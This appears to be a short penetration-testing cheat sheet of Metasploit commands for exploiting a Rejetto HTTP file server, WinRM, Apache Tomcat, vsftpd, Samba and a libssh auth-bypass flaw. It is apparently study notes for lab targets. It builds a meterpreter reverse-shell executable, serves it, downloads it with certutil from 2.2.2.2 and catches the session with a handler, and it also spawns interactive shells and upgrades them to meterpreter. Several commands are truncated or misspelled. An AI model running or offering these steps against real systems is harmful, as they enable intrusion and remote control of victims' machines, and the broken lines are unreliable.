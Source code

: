 ### Exploitation
**Exploiting a vulnerable HTTP file server**
```
search rejetto
> can set payload to architecture too
```

**Exploiting WinRM**
```
search winrm
winrm_auth_method, winrm_login, winrm_cmd, winrm_script
set FORCE_VBS true
```

**Exploiting a vulnerable Apache Tomcat web server**
```
search tomcat_jsp
set payload java/jsp_shell_bind_tcp
set SHELL cmd

msfvenom -p windwos/meterpreter/reverse_tcp LHOST.. LPORT... -f exe > meterpreter.exe
sudo python -m SimpleHTTPServer 80

certutil -urlcache -f http://2.2.2.2/meterpreter.exe meterpreter.exe

nano handler.rc
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
LHOST.. LPORT...
run

.\meterpreter.exe
```

### Linux exploitation
**Exploiting a vulnerable FTP server**
```
search vsftpd
/bin/bash/ -i
search shell_to_meterpreter
set LHOST eth1
set SESSION 1
```

**Exploiting Samba**
```
search samba/is_known_pipename
check

search shell_to_meterpreter
```

**Exploiting a vulnerable SSH server**
```
search libssh_auth_bypass
set SPAWN_PTY true
cat /etc/*release
uname -r
search shell_to_meterpreter
```
